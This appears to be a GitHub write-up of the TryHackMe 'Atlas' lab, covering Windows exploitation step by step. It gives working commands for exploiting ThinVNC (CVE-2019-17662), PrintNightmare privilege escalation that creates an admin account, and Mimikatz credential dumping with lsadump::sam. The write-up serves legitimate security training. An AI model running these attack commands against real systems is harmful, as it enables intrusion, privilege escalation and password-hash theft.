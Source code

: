 # Atlas
This is my writeup for the TryHackMe room [Atlas](https://tryhackme.com/room/atlas) created by [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle).

![image](https://user-images.githubusercontent.com/86648102/135411347-8f13e0b8-c5c2-4758-ba25-e839550dc248.png)

<details><summary> Task 1 Introduction Room Overview and Deploy! </summary>
 

 This is an introductory level room which aims to teach you the very basics of Windows system exploitation, from initial access, through to privilege escalation.

**Answer the questions below**

### Press the Green "Start Machine" button to deploy the machine!
 
 > No answer needed.
<br>
 
 </details>

<details><summary> Task 2 Enumeration: Port Scanning </summary>

**Enumeration** is probably the most important thing when comes to solving any challenge.


**Answer the questions below**

### Scan your target IP (10.10.200.252) with Nmap!

Let's add a bit of flavour here, to have a more complex scan with output to a text file for later review:

`sudo nmap -sC -sV -v -oN Atlasnmapscan.txt $ip -p- -Pn`

### With the Nmap default port range, you should find that two ports are open. What port numbers are these?

Reffer to the above **scan** ; the 2 ports are appearing quickly with the verbose output.

### What service does Nmap think is running on the higher of the two ports?

The answer is found in the bottom of the nmap scan.

![image](https://user-images.githubusercontent.com/86648102/135414498-baf3e3fd-48f5-4cfd-b10f-db34df0682c7.png)


### We would usually go on to do a lot more in-depth scanning, but we will leave it at that for this introductory room. We have what we need for the time being.

> Here, it's a reference for the nmap scan switches mentioned above. 
<br>
  </details>
  

<details><summary> Task 3 Enumeration: Service Enumeration </summary>

Doing the scan as suggested above, will contain this part.
- First service : 3389 RDP: Remote Desktop Protocol, used to get remote graphic desktop session ;
- Second service: 8080 HTTP-PROXY; 
 By accessing it into a web browser, we get prompted to authenticate 
  
  ![image](https://user-images.githubusercontent.com/86648102/135415966-53b1a5c3-f48d-4460-9347-050d2b1c753a.png)

We're going to curl the target to get more info:

`curl $ip:8080 -v`
![image](https://user-images.githubusercontent.com/86648102/135416755-45b5f730-f9c5-4d52-bcb0-f72fd5848e07.png)


**Answer the questions below**


### Use searchsploit to find the vulnerability in ThinVNC

`searchsploit ThinVNC`

![image](https://user-images.githubusercontent.com/86648102/135416567-0b2b2e07-a0ba-4c51-a8c0-a9a48f692f5c.png)

<br>
</details>

<details><summary> Task 4 Attack Foothold </summary>

**Answer the questions below**

# Clone the Git repository at https://github.com/MuirlandOracle/CVE-2019-17662  to your attacking machine.

`git clone https://github.com/MuirlandOracle/CVE-2019-17662`

# Switch into the newly created exploit directory and set the file to be executable 

- First check with `ll`; if the file is executable already, go to next task.

![image](https://user-images.githubusercontent.com/86648102/135418603-22ec11b3-6820-4043-9ffc-767d3ab495e5.png)


# Read through the exploit help menu

`./CVE-2019-17662.py --help`

- This script requires two arguments

![image](https://user-images.githubusercontent.com/86648102/135418690-71194ca4-80ad-465e-9837-7d867f2f9c3f.png)


![image](https://user-images.githubusercontent.com/86648102/135418912-c2ae1f7f-6f8e-4c1d-9452-b724fd50e37d.png)


# Use the credentials found by the script to get past the HTTP Basic Auth presented when trying to access the vulnerable service in your web browser. You should have access to a user desktop!

We could use the inbrowser version or we could use Remmina for this task.

- `sudo apt install remmina`
- After you have it installed, open `remmina`
- Click on "Add new connection" where you put the newfound details

- RIght CLick > Connect 

![image](https://user-images.githubusercontent.com/86648102/135423850-0946b3ae-e6bb-42ed-add1-b3c41bd35e02.png)

<br>
</details>

<details><summary> Task 5 Access VNC <> RDP  </summary>


If the above step worked for you, then you should be already conencted to the machine via Remmina.

However, the mentioned method here is working too.

`xfreerdp /v:10.10.200.252 /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:/tmp,share`

> Replace USERNAME and PASSWORD arguments with your findings
<br>
</details>

<details><summary> Task 6 Attack Privilege Escalation  </summary>

--- 

**Answer the questions below**

We will use PrintNightmare to elevate our privileges on this target.


### There are many different implementations of PrintNightmare available. You are advised to use a PowerShell version written by Caleb Stewart and John Hammond.


### Navigate to the /tmp directory of your attacking VM, then clone the repository.


`cd /tmp`
`git clone https://github.com/calebstewart/CVE-2021-1675`

- Now, on the RDP session, open a powershell and run the following command:

`. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1` 

> This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!

![image](https://user-images.githubusercontent.com/86648102/135426765-0c782b7e-5390-4151-88a4-08c738764e35.png)

- Next, in powershell, run `Invoke-Nightmare`

![image](https://user-images.githubusercontent.com/86648102/135427022-bdba10ff-1795-4dd3-95e7-e5069d3736bb.png)

We can now make use of our brand new admin account!
Run:

`Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n`

Input as  Password :`P@ssw0rd` (generated before with the script)

Run `whoami /groups`

![image](https://user-images.githubusercontent.com/86648102/135427571-8b68d13f-14b7-4367-9aa3-007fc66231b2.png)

Good. We now have admin on this machine.
<br>
</details>

<details><summary> Task 7 Attack Post Exploitation  </summary>

---
**Answer the questions below**

- First up, let's get an up-to-date copy of Mimikatz to our attacking machine.
Go to https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810-2 and download `mimikatz_trunk.zip`
Make sure that the zip file is in your /tmp directory, then unzip it with unzip mimikatz_trunk.zip.

On RPD:

`\\tsclient\share\x64\mimikatz.exe`

Then, with mimikatz open:

`privilege::debug`

> this obtains debug privileges which allows us to access other processes for "debugging" purposes.

`token::elevate`

> takes us from our administrative shell with high privileges into a SYSTEM level shell with maximum privileges

![image](https://user-images.githubusercontent.com/86648102/135429820-ea30492a-d8c0-4b6b-97f5-996b41d9371a.png)



# What is the Administrator account's NTLM password hash?

Found in the output of :

`lsadump::sam`

> this will provide us with a list of password hashes for every account on the machine

![image](https://user-images.githubusercontent.com/86648102/135430241-41c128b6-e617-4187-9dac-350418c37c0c.png)
<br>
</details>

<details><summary> Task 8 Conclusion Final Thoughts  </summary>

---

Congratulations -- you hacked Atlas!

**We covered initial exploitation of outdated software, as well as exploiting the Windows PrintSpooler and dumping password hashes with Mimikatz.**
<br>
</details>




